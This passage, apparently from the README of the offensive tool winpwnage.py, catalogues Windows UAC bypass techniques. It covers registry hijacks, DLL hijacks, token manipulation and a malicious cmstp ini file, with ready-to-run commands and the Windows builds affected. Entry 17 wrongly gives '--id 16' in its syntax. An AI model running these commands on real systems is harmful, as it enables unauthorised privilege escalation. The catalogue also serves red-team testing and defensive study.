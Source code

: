     * Id: 9
    * Method: Registry key (Class) manipulation
    * Syntax: `winpwnage.py --use uac --id 9 --payload c:\\windows\\system32\\cmd.exe`
	* Works from: 7600
	* Fixed in: 15031	
* UAC bypass using computerdefaults.exe
    * Id: 10
    * Method: Registry key (Class) manipulation
    * Syntax: `winpwnage.py --use uac --id 10 --payload c:\\windows\\system32\\cmd.exe`
	* Works from: 10240
	* Fixed in: n/a
* UAC bypass using cliconfg.exe (DLL payload only)
    * Id: 11
    * Method: DLL hijack using makecab and wusa
    * Syntax: `winpwnage.py --use uac --id 11 --payload c:\\windows\\system32\\cmd.exe`
	* Works from: 7600
	* Fixed in: 9800
* UAC bypass using mcx2prov.exe (DLL payload only)
    * Id: 12
    * Method: DLL hijack using makecab and wusa
    * Syntax: `winpwnage.py --use uac --id 12 --payload c:\\windows\\system32\\cmd.exe`
	* Works from: 7600
	* Fixed in: 10147
* UAC bypass using migwiz.exe (DLL payload only)
    * Id: 13
    * Method: DLL hijack using makecab and wusa
    * Syntax: `winpwnage.py --use uac --id 13 --payload c:\\windows\\system32\\cmd.exe`
	* Works from: 7600
	* Fixed in: 10147	
* UAC bypass using sysprep.exe (DLL payload only)
    * Id: 14
    * Method: DLL hijack using makecab and wusa
    * Syntax: `winpwnage.py --use uac --id 14 --payload c:\\windows\\system32\\cmd.exe`
	* Works from: 7600
	* Fixed in: 9600
* UAC bypass using token manipulation
    * Id: 15
    * Method: Token manipulation
    * Syntax: `winpwnage.py --use uac --id 15 --payload c:\\windows\\system32\\cmd.exe`
	* Works from: 7600
	* Fixed in: 17686
* UAC bypass using sdclt.exe (Folder)
    * Id: 16
    * Method: Registry key (Class) manipulation
    * Syntax: `winpwnage.py --use uac --id 16 --payload c:\\windows\\system32\\cmd.exe`
	* Works from: 14393
	* Fixed in: n/a
* UAC bypass using cmstp.exe
    * Id: 17
    * Method: Malicious ini file
    * Syntax: `winpwnage.py --use uac --id 16 --payload c:\\windows\\system32\\cmd.exe`
	* Works from: 7600
	* Fixed in: n/a
* UAC bypass using .NET Code Profiler (DLL payload only)
    * Id: 18
    * Method: Registry key (Class) manipulation and DLL hijack
    * Syntax: `winpwnage.py --use uac --id 18 --payload c:\\windows\\system32\\cmd.exe`
	* Works from: 7600
	* Fixed in: n/a
* UAC bypass using mocking trusted directories (DLL payload only)
    * Id: 19
    * Method: Mock SystemRoot directory and DLL hijack
    * Syntax: `winpwnage.py --use uac --id 19 --payload c:\\windows\\system32\\cmd.exe`
	* Works from: 7600